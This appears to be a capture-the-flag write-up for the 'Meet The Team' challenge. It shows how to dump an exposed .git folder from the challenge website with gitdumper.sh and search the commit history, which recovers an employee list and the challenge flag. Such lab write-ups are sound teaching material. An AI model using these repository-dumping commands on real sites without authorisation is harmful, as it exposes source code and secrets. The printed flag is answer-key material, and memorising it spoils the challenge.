


# Meet The Team

Tags: _git_ _gittools_ _gitdumper_

## Challenge

>Author: @JohnHammond#6971
>
>Recover the list of employees working at CONSTELLATIONS.
>
>With the flag of this challenge, you should find new information that will help with future challenges.
>
>You should find the flag for this challenge ON THIS constellations.page website. You will not find it on GitHub.
>
>HINT: "Can we please stop sharing our version control software out on our website?"
>
>HINT AGAIN: you are looking for a publicly accessible version control software folder published on the constellations.page website itself
>
>After solving this challenge, you may need to refresh the page to see the newly unlocked challenges.
>

## Solving

https://constellations.page/.git


https://constellations.page/config



```
$ gitdumper.sh http://constellations.page/.git/ git
$ cd git

$ git log |grep commit |cut -d " " -f2 |xargs git show


-                               <li><h4><b>Orion Morra</b> &mdash; Support</h4></li>
-                               
-                               <li><h4><b>Lyra Patte</b> &mdash; Marketing</h4></li>
-                               
-                               <li><h4><b>Leo Rison</b> &mdash; Development</h4></li>
-                               
-                               <li><h4><b>Gemini Coley</b> &mdash; Operations</h4></li>
-
-                               <li><h4><b>Hercules Scoxland</b> &mdash; Sales</h4></li>
-
-                               <li><h4><b>Vela Leray</b> &mdash; Management</h4></li>
-
-                               <li><h4><b>Pavo Welly</b> &mdash; HR</h4></li>
-
-                               <li><h4><b>Gus Rodry</b> &mdash; Accounting</h4></li>
-
-                               <!-- <li><h4><b>flag{4063962f3a52f923ddb4411c139dd24c}</b></h4></li> -->
```
